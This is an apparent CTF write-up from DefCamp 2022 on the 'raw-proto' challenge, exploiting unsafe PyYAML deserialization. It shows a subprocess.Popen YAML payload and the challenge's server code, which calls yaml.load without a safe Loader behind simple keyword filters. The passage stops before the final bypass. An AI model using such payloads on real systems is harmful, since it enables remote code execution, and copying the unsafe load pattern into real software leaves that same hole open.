 ```yaml
---
layout: post
title: "Defcamp 2022 Writeups"
categories: writeups
authors:
  - Liam
---
```


Here are a few writeups from the tasks we solved at DefCamp Capture the Flag 2022.

## raw-proto

Challenge description:

> This challenge leaves me a salty, sour taste.
> 

No files are provided. The challenge greets us with:

```
/home/ctf/server.py:15: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
GET / HTTP/1.1
```

YAML or more specifically PyYAML comes with python support (Documentation: [https://pyyaml.org/wiki/PyYAMLDocumentation](https://pyyaml.org/wiki/PyYAMLDocumentation))

This should make it easy to do anything we want on the system, but trying a basic payload:

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

Gives us:

```
Try Harder! I bet you can.. lol.
```

We had to work our way around the filters. For the sake of a short and complete write-up, we show the actual code, that we obtained with our final exploit after getting the flag.

```python
import sys,yaml
import os
del os
sys.modules['os']=None
x = ''.join(sys.stdin.readline())
if 'open' in x:
    print("Try Harder! I bet you can.. lol.")
    sys.exit(0)
if
'\\x' in x:
    print("Try Harder! Hex in python? Is that all you can think off?")
    sys.exit(0)
if 'base64' in x:
    print("Try Harder! base64 in python? Is that all you can think off?")
    sys.exit(0)
print(yaml.load(x))
```
